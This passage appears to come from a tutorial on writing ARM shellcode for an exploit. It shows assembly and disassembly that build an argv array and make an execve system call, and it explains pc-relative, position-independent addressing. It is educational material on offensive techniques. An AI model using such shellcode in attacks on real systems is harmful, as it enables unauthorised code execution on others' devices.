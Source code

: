 
In assembly this translates to:

```nasm
    mov r3, #0              @; &argv[3]
    add r2, pc, Largv2-.-8
    add r1, pc, Largv1-.-8
    add r0, pc, Largv0-.-8  @; &argv[0]
    push {r0-r3}
```

But why `add` and not `mov`?

## Position independent code

The exploit will be loaded in a piece of executable memory but we cannot
know *a priori* where.

Therefore, branches and addresses **must** be *relative* to the program
counter.

We cannot just say `mov r2, label` as we will hardcoding the address of
`label`; we need to use `add` and `pc`.

```nasm
00000020 <Lchild>:
  20:   e3a03000        mov     r3, #0
  24:   e28f204c        add     r2, pc, #76     ; 0x4c  argv2
  28:   e28f1044        add     r1, pc, #68     ; 0x44  argv1
  2c:   e28f0034        add     r0, pc, #52     ; 0x34  argv0
  30:   e92d000f        push    {r0, r1, r2, r3}
  34:   e28d1000        add     r1, sp, #0
  38:   e28d200c        add     r2, sp, #12
  3c:   e3a0700b        mov     r7, #11
  40:   ef000000        svc     0x00000000
        ....            ....

00000068 <Largv0>:
        ....            ....
00000074 <Largv1>:
        ....            ....
00000078 <Largv2>:
```

The `add` instructions like `add r2, pc, #76` makes the address relative
to the program counter.

To calculate the offset to a label like `Largv0` we need to subtract
the address of the label minus the current position minus 8 bytes
(because `pc` already has an implicit +0x8)

```python
    0x78 - 0x24 - 0x8 = 0x4c = 76
```

Thankfully the assembler can do the calculus by us:
